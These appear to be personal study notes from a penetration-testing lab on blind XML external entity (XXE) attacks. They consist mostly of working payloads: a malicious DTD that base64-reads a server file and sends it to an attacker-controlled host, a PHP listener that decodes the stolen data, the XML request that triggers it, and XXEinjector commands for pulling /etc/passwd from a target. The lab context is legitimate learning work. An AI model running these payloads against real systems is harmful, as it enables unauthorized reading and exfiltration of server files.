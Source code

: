 
when we cannot see the output of any XML entities nor do we get any PHP errors displayed

Out of Band Data Exfiltration  -> hosted DTD file in our machine and made the web application connect to us 

make a dtd file and then host it
```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/327a6c4304ad5938eaf0efb6cc3e53dc.php">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://10.10.14.79:8000/?content=%file;'>">
```


PHP script
automatically detects encoded file content, decodes it, and outputs it to the terminal 
```php
<?php
if(isset($_GET['content'])){
    error_log("\n\n" . base64_decode($_GET['content']));
}
?>
```

host it on our server
```
php -S 0.0.0.0:8000
```

then we do this
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>
```

## Automated
```shell-session
git clone https://github.com/enjoiz/XXEinjector.git
```

we take the HTTP request from burp and then write XXEINJECT after the position locator
```
POST /blind/submitDetails.php HTTP/1.1
Host: 10.129.201.94
Content-Length: 169
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: http://10.129.201.94
Referer: http://10.129.201.94/blind/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
XXEINJECT
```


```shell-session
ruby XXEinjector.rb --host=[tun0 IP] --httpport=8000 --file=/tmp/xxe.req --path=/etc/passwd --oob=http --phpfilter
```

then we read the logs: 

```shell-session
cat Logs/10.129.201.94/etc/passwd.log 
```